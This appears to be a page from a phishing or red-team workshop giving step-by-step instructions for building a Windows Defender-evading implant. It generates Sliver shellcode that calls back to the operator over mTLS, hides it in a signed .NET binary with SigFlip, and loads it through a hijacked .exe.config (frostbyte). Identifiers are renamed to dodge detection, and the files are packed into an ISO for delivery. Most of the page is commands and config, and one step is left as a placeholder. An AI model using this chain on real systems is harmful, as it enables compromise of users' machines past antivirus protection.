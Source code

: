 +++
title = "Better Payload Generation"
weight = 100
+++

### Better implants (frostbyte bypass windows defender)

Instead of generating a executable. We can generate shellcode. We can then use something like [https://github.com/pwn1sher/frostbyte](https://github.com/pwn1sher/frostbyte) to load that shellcode into memory and execute it.

Lets get download the [frostbyte zip](https://github.com/pwn1sher/frostbyte/archive/refs/heads/main.zip) from Github. Extract it to the desktop.

We need a .net binary with a .exe.config file. Windows has lots of those in `C:\Windows\Microsoft.NET\Framework64\v4.0.30319`.

![Windows Executable with Config](/static/how-to-phishing/windows-executable-with-config.png)

### Generate shellcode

In a sliver shell we need to run the following be sure to replace the ip with your vm's ip.

```bash
generate --mtls replaceip -f shellcode --save implants/shellcodex64.bin
```

Copy the shellcode to your windows machine.


```bash
SigFlip.exe -i "C:\Users\testuser\Desktop\frostbyte-main\jsc.exe" "C:\Users\testuser\Desktop\frostbyte-main\shellcodex64.bin" "C:\Users\testuser\Desktop\frostbyte-main\AuthHelper.exe" "iamadumbsecret"
```

- We need to replace `test` with our executabe name our executable name without the extenaion (`AuthHelper`). 
- Next we need to update the value of `appDomainManagerType` to be something else `NewAuthHelper`.
- Finally lets make `privatePath` a relative path `.`
- save as `AuthHelper.exe.config`

```xml
<configuration>
   <runtime>
      <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">
         <probing privatePath="."/>
      </assemblyBinding> 
	  <appDomainManagerAssembly value="AuthHelper, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null" />  
	  <appDomainManagerType value="NewAuthHelper" />  
   </runtime>
</configuration>
```

Now we need to update the `test.cs` file.

- remove top three lines prepended with `#`
- replace `Z45UDG` with `NewAuthHelper`
- comment out logging
- replace `S3cretK3y` with `iamadumbsecret`
- change `Z:\\zloader\\update.exe` to `AuthHelper.exe`
- replace all instances of `shellcode` with `pizza`
- replace `ClassExample` with `WeatherChecker`
- replace `Beacon` with `Forecast`
- replace `Decrypt` with `Process`

We'll also want to change some of the code to be a little different


```
C:\windows\Microsoft.NET\Framework\v3.5\csc.exe /target:library /out:AuthHelper.dll test.cs
```





test ....



### PackMyPayload

https://github.com/mgeeky/PackMyPayload

Create a new folder and andd your files (.dll, .exe, .exe.config)

```
./PackMyPayload.py --hide test.dll,test.exe.config foldername isoname.iso -v
```

now we should be able to mount the iso and run our exe to get an implant session.